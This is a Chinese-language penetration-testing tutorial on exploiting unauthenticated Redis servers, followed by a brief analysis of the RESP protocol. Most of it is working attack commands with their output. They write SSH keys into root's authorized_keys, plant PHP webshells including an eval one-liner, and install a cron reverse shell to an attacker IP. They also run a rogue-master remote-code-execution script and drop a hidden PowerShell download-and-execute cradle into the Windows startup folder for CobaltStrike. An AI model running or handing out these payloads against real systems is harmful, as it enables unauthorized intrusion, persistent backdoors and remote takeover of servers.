










# Redis 未授权访问

## 0x00 前言

Redis 是一个开源的使用 ANSI C 语言编写、遵守 BSD 协议、支持网络、可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API。它通常被称为数据结构服务器，因为值（value）可以是 字符串(String), 哈希(Hash), 列表(list), 集合(sets) 和 有序集合(sorted sets)等类型。

## 0x01 前置知识

- [x] Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上。
- [x] 如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。
- [x] 攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

## 0x02 利用条件

要成功的利用 Redis 未授权访问的漏洞需要满足以下条件：

- [x] Redis 服务未开启认证或弱密码进行认证。
- [x] Redis 服务以 root 账户运行。
- [x] Redis 服务监听在 0.0.0.0 公网上或内网中。

## 0x03 Redis 配置文件

### port 参数

格式为 `port` 后面接端口号，如 `port 6379`，表示 Redis 服务器将在 6379 端口上进行监听来等待客户端的连接。

### bind 参数

格式为 `bind` 后面接 IP 地址，可以同时绑定在多个 IP 地址上，IP 地址之间用空格分离，如 `bind 192.168.1.100 10.0.0.1`，表示同时绑定在 192.168.1.100 和 10.0.0.1 两个 IP 地址上。如果没有指定 `bind` 参数，则绑定在本机的所有 IP 地址上。

### save 参数

格式为 `save <秒数> <变化数>`，表示在指定的秒数内数据库存在指定的改变数时自动进行备份（Redis 是内存数据库，这里的备份就是指把内存中的数据备份到磁盘上）。可以同时指定多个 `save` 参数，如：

```
save 900 1
save 300 10
save 60 10000
```

表示如果数据库的内容在 60 秒后产生了 10000 次改变，或者 300 秒后产生了 10 次改变，或者 900 秒后产生了 1 次改变，那么立即进行备份操作。

### requirepass 参数

格式为 `requirepass` 后接指定的密码，用于指定客户端在连接 Redis 服务器时所使用的密码。Redis 默认的密码参数是空的，说明不需要密码即可连接；同时，配置文件有一条注释了的 `requirepass foobared` 命令，如果去掉注释，表示需要使用 foobared 密码才能连接 Redis 数据库。

### dir 参数

格式为 `dir` 后接指定的路径，默认为 `dir ./`，指明 Redis 的工作目录为当前目录，即 redis-server 文件所在的目录。注意，Redis 产生的备份文件将放在这个目录下。

### dbfilename 参数

格式为 `dbfilename` 后接指定的文件名称，用于指定 Redis 备份文件的名字，默认为 `dbfilename dump.rdb`，即备份文件的名字为 dump.rdb。

### config 命令

通过 config 命令可以读取和设置 dir 参数以及 dbfilename 参数，因为这条命令比较危险，所以 Redis 在配置文件中提供了 rename-command 参数来对其进行重命名操作，如 `rename-command CONFIG HTCMD`，可以将 `CONFIG` 命令重命名为 `HTCMD`。配置文件默认是没有对 `CONFIG` 命令进行重命名操作的。

## 0x04 Redis 未授权检测

首先可以使用 Nmap 的检测脚本 对 Redis 进行未授权检测

```bash
nmap -A -p 6379 –script redis-info 192.168.0.126
```

连接数据库查看 info, 确定未授权访问



## 0x05 Linux 权限获取

首先在攻击机中生成密钥对

```bash
ssh-keygen -t rsa
```

将公钥导入 key.txt 文件（前后用\n\n 换行，避免和 Redis 里其他缓存数据混合）

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```

再把 key.txt 文件内容写入目标主机的缓冲里

```bash
cat key.txt | redis-cli -h 192.168.0.126 -x set test
```

再通过设置参数，写入指定文件

```bash
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /root/.ssh
OK
192.168.0.126:6379> config set dbfilename authorized_keys
OK
192.168.0.126:6379> keys *
1) "test"
192.168.0.126:6379> get test
"\n\n\nssh-rsa xxxxxxxxxxxx \n\n\n\n"
192.168.0.126:6379> save
OK
192.168.0.126:6379>
```

如上则为成功写入 SSH 密钥文件，攻击机可无需密码远程连接目标主机 SSH

```bash
ssh root@192.168.0.126 -i <private_key>
```

## 0x06 WebShell 获取

当 SSH 不允许远程登录时，也可以通过写入 Web 目录控制目标主机

```bash
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /var/www/html
OK
192.168.0.126:6379> config set dbfilename xxx.php
OK
192.168.0.126:6379> set web "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
OK
192.168.0.126:6379> save
OK
```



## 0x07 写入定时任务

通过写入定时任务反弹 Shell，获取权限

首先在攻击机监听端口

```bash
nc -lvvp 9999
```

再在目标主机写入定时任务

```bash
192.168.0.126:6379> set test2 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.140/9999 0>&1\n\n"
OK
192.168.0.126:6379> config set dir /var/spool/cron
OK
192.168.0.126:6379> config set dbfilename root
OK
192.168.0.126:6379> save
OK
192.168.0.126:6379>
```

如上写入成功后，等待一分钟即可反弹 Shell

## 0x08 主从复制漏洞利用

- 如果当把数据存储在单个 Redis 的实例中，当读写体量比较大的时候，服务端就会不堪重负。
- 为了应对这种情况，Redis 就提供了主从模式，主从模式就是指使用一个 redis 实例作为主机，其他实例都作为备份机。
- 其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

Redis 未授权访问在 4.x/5.0.5 以前版本，我们可以使用主/从模式加载远程模块，通过动态链接库的方式执行任意命令。

关于漏洞原理请查看 [Pavel Toporkov 的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

**Interactive shell**

```bash
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] whoami
[>>] :n0b0dy
[<<]
```

**Reverse shell**

Invoke reverse shell:

```bash
➜ ./redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
______         _ _      ______                         _____
| ___ \       | (_)     | ___ \                       /  ___|
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|
                                     __/ |
                                    |___/
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:21000
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 127.0.0.1
Reverse server port: 9999
[info] Reverse shell payload sent.
[info] Check at 127.0.0.1:9999
[info] Unload module...
```

Receive reverse shell:

```bash
➜ nc -lvvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from localhost.localdomain 39312 received!
whoami
n0b0dy
```

## 0x09 Windows 权限获取

### WebShell

攻击成功的前提为：需要准确的知道 Web 目录位置，可通过 phpinfo 或者 网站报错得知。



这里测试的目标路径为：`C:\phpstudy_pro\WWW`

通过 Redis 写入一句话木马

```bash
192.168.0.123:6379> config set dir C:\phpstudy_pro\WWW
OK
192.168.0.123:6379> config set dbfilename shell.php
OK
192.168.0.123:6379> set test "<?php @eval($_POST['shell'])?>"
OK
192.168.0.123:6379> save
OK
```

成功写入木马，并可连接控制服务器



### 启动项

攻击方法与写入Linux启动项相似

1. 需要高权限账户
2. Windows 启动项目录为:
   1. `C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/`
   2. `C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp`

首先创建 CobaltStrike监听

`Attacks -> Web Drive-By -> Script Web Delivery`



生成 Powershell 语句

```bash
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))"
```

执行Redis命令写入语句

```bash
192.168.0.123:6379> config set dir "C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
OK
192.168.0.123:6379> config set dbfilename cmd.bat
OK
192.168.0.123:6379> set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))\"\r\n\r\n"
OK
192.168.0.123:6379> save
OK
```

当主机重启时就会执行命令上线 CobaltStrike



## 0x10 Redis 流量特征分析

redis-server 支持的两种协议：

1. Plaintext (space separated)

	`SET keyname value\n`

2. RESP (REdis Serialization Protocol）

	`*3\r\n$3\r\nSET\r\n$7\r\nkeyname\r\n$5\r\nvalue\r\n`

### RESP (REdis Serialization Protocol）

这里重点分析 RESP 协议，在 RESP 协议中，所有的数据的第一字符都是以下五种类型之一：

- `+` : 简单字符串
- `-` : 错误
- `:` : 整数
- `$` : 复杂字符串或大块字符串(bulk string)
- `*` : 数组

任何一个类型的数据都是以 "`\r\n`"(CRLF)作为结束符。

#### 简单字符串(Simple Strings)

`+OK\r\n`

#### 错误(Error)

`-ERR unknown command 'foobar'\r\n`

#### 整数(Integer)

`:1000\r\n`

#### 复杂字符串或大块字符串(Bulk Strings)

`$5\r\nHello\r\n`

#### 数组(Arrays)

数组(Arrays) 是以下方式编码的：

- 以 `*` 作为第一个字符，然后写入数组的长度，最后以 CRLF 结尾。
- 一组 RESP 类型的数据作为数组的元素。

`*2\r\n$3\r\nfoo\r\n$3\r\nbar\r\n`

### 抓包分析









## 0x11 参考资料

- [Redis Server 实现·协议篇](https://yusank.space/posts/redis-server-protocol/)
- [Pavel Toporkov 的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
- [PeiQi](http://wiki.peiqi.tech/redteam/vulnerability/unauthorized/Redis%206379%E7%AB%AF%E5%8F%A3.html)